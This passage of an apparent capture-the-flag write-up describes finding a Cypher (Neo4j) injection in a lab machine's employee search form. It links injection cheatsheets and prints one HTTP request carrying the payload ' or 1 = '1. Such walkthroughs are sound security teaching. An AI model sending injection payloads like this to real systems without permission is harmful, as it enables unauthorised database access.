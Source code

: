 ![Employees](/assets/images/2023/05/OnlyForYou/Employees.png "Employees")

I tried SQL and NoSQL injection. They both failed, but sending a `'` gave me an error. I remembered seeing Neo4j on the server. I never did injection in Neo4j. But a quick search gave me a nice [cheatsheet on Cypher Injection](https://pentester.land/blog/cypher-injection-cheatsheet/). And as usual [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j) also had lots of information.

I read both pages and started trying to exploit it. I quickly found a payload that seemed to confirm I could inject it.

```http
POST /search HTTP/1.1
Host: localhost:8001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://localhost:8001
Connection: close
Referer: http://localhost:8001/employees
Cookie: lang=en-US; session=9d9ed6dc-9c64-4f25-834d-77492f56aa71
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

search=' or 1 = '1
```
